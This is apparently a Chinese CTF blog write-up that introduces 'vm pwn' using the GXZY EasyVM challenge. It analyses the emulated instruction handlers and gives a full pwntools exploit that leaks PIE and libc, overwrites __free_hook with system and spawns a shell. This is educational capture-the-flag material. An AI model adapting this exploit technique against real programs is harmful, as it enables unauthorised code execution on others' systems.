 ```yaml
---
title: 一道题认识vm pwn
date: 2020-05-16 23:38:16
tags: pwn
---
```

最近在复现网鼎杯青龙组的题，其中有一个vm pwn，<!--more-->从来没接触过，也不敢接触，一直认为这是很难的东西，想想也正是因为我这种遇到困难睡大觉的习惯，导致一直停滞不前  
复现那个vm pwn的话，对于没做过vm题的人来说，是比较难以理解难以分析的，所以Keer建议我先把GXZY的EasyVM给复现一遍，那个题算比较简单   
# 介绍  
先来简单介绍一下vm pwn题和普通glibc pwn的区别，  
一般来说，vm题的代码量比较大，有很多if条件语句，这些if里的条件判断一般是判断你的input是否等于一个数，对我们的输入通过出题人自行定义并初始化的CPU进行解析成指令操作数，如果这些操作数满足if条件则执行if语句内的操作，就有点类似于系统调用号的流程，对于一个vm程序来说，他会模拟出一台计算机的基本功能，所以他的if语句会有很多，其中有的甚至是源码级操作，可以直接进行任意地址读写等操作  
解vm pwn，关键在于分析代码，分析程序流程，只有逐条分析清楚了每一条语句，才能看懂整台虚拟机对我们的输入是怎么样解析的，我们输入的东西会做些什么  
相对于一般的glibc pwn，vm pwn更不需要把系统对于内存的管理机制了解的那么清楚，只要分析代码就行  
下面我们来看这个例题  
# [GXZY]EasyVM  
首先查看保护，文件信息等  
![](1.png)
保护全开，动态链接  
然后我们来分析代码  
![](2.png)
![](3.png)
这里只分析几个关键的指令  
![](4.png)
![](5.png)
首先，v5变量赋值给了dword_305C后，会指向bss段内，那么就可以通过打印v5，来泄露pie  
先执行9，就会把已经指向bss段的v5变量赋值给a1[1]  
然后执行0x11操作，就会打印出a1[1]的地址  
接着再退出  
我们着重分析一下0x80操作里面的sub_9C3函数  
```C++  
    a1[sub_9C3(a1, 1u)] = *(a1[8] + 2);
    a1[8] += 6;    //指令长度为6
```  
所有的if语句中的操作，下面对于a1[8]的操作，都是指的指令的长度  
```C++  
int __cdecl sub_9C3(int a1, unsigned int a2)
{
  int result; // eax
  unsigned int v3; // [esp+1Ch] [ebp-Ch]

  v3 = __readgsdword(0x14u);
  result = 0;
  if ( a2 <= 2 )
    result = (*(unsigned __int8 **)((char *)&free_ptr + a1 - 12188))[a2];
  if ( __readgsdword(0x14u) != v3 )
    sub_1080();
  return result;
}
```  
![](6.png)
可以看到free_ptr的地址是0x2fbc，那么可以写成result = (*(unsigned __int8 **)((char *)(a1+32))[a2];   
又有(char*)(a1+32) == (DWORD*) a1[8]，而且a2=1，那么这里就是a1[8][1]   
这个a1[8][1]怎么理解呢？  
它指的是指令，6个字节的指令中的第2个字节  
后面会在exp中看到，\x80是第一个字节，chr(3)是第二个字节，然后这个3对应着下面putchar那块指令中的a1[3]  
我们leak出了pie之后，可以计算出free_got的地址，然后可以通过putchar来leak libc  
接着可以向free_hook里写东西，将其改写成system  
最后，向chunk中写入sh参数时，使用越界的方法，写到第二块chunk的可控数据区域  
![](7.png)
我们可以看到程序一开始malloc了一块0x3c大小的chunk，根据prev_size的复用，以及堆内存的管理机制，实际可控区域的大小是0x38  
0x38/4 == 14，那就是14个int大小，然后我们直接写到a1[16]，就直接绕过了chunk2的header，直接写到了chunk的data区  
直接贴出exp  
## exp  
```python  
#!/usr/bin/env python
#coding=utf-8
from pwn import*
from LibcSearcher import *
import sys
context.log_level = 'debug'
context.terminal = ['terminator','-x','sh','-c']
binary = './EasyVM' 
local = 1
if local == 1:
    p=process(binary)
else:
    p=remote("",)
elf=ELF(binary)
libc=elf.libc
def add(content):
    p.recvuntil(">>> \n")
    p.sendline("1")
    p.send(content)
def free():
    p.recvuntil(">>> \n")
    p.sendline("3")
def exp():
    p.recvuntil(">>> \n")
    p.sendline("4")
    add("\x09\x11\x99")
    p.recvuntil(">>> \n")
    p.sendline("2")
    p.recvuntil("0x")
    addr = int(p.recvline(),16)  # 泄露pie
    free_got = addr - 1728 + 0x2fbc
    log.success("free_got==>" + hex(free_got))
    free_addr = ''
    for i in range(4):
        payload = "\x80" + chr(3) + p32(free_got + i) + '\x53' +'\x00' + '\x99'  # 循环单字节写入，将free_got指向的地址写进malloc的chunk中，
        add(payload)                                                             # 然后执行putchar，leak出free_addr
        p.recvuntil(">>> \n")
        p.sendline("2")
        free_addr =free_addr + p.recv(1)  # 一个字节一个字节接收并连接拼起来
    free_addr = u32(free_addr)
    libc_base = free_addr - libc.sym['free']
    free_hook = libc_base + libc.sym['__free_hook']
    system = libc_base + libc.sym['system']
    log.success("free_addr==>" + hex(free_addr))
    log.success("libc_base==>" + hex(libc_base))
    log.success("free_hook==>" + hex(free_hook))
    log.success("system==>" + hex(system))
    for i in range(4):
        payload = "\x80" + chr(3) + p32(free_hook + i) + '\x54' +'\x00' + '\x99'  # sub_9C3函数中指令的长度是6，用\x00填充到6字节
        add(payload)
        p.recvuntil(">>> \n")
        p.sendline("2")
        payload = p32(system)[i]
        p.send(payload)
    payload = "\x80" + chr(16) + 'sh\x00' +'\x00' + '\x99'  
    add(payload)
    p.recvuntil(">>> \n")
    p.sendline("2")
    #gdb.attach(p)
    free()
    p.interactive()
exp()
```  
getshell
![](8.png)
总结：第一次接触vm pwn，发现其中很多东西需要细品，很多东西我都明白不了是怎么一回事，特别是\x80的关键函数，更是看的云里雾里，搞二进制还是要多看代码，代码要分析透彻，心中才有底  
初次接触vm，如有错误之处，还请众师傅指正  
</br>  

参考链接:  
https://blog.csdn.net/qq_43116977/article/details/104793414